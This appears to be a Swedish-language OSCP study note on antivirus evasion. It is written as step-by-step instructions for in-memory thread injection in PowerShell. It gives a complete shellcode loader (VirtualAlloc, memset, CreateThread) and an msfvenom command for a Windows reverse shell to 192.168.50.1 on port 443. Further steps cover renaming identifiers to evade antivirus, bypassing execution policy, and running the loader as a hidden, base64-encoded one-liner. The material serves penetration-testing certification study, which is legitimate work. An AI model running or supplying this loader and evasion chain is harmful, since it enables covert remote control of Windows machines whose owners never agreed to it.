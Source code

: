 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/6-antivirus-evasion/2-manual-thread-injection/"}
---
```


### In-memory Thread Injection Using Powershell:

1. Skapa ps1-skript med följande kod:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
2. Generera payload med msfvenom enligt följande:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```
3. Byt ut variabelnamn på t.ex. $winFunc och $sc till mer generiska namn för att ungå AVs. Byt även ut namnet på class-namnet från "Win32" till något annat.
4. Sätt upp lyssnare och exekvera skriptet på valfritt sätt genom powershell (x86).
5. Om det inte tillåts pga execution policies ändra genom:
```powershell
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

------------

### One-liner genom encodedCommand:

Använd https://github.com/darkoperator/powershell_scripts/tree/master och generera en base-64 sträng med hela skriptet genom:
```bash
python3 ps_encoder.py -s malware.ps1
```
Kör sedan commandot i powershell genom:
```powershell
powershell.exe -encodedCommand ...ByAHQALQBzAGwAZQBlAHAAIAA2ADAAIAB9ADsACgA=
```
Extra secrecy:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
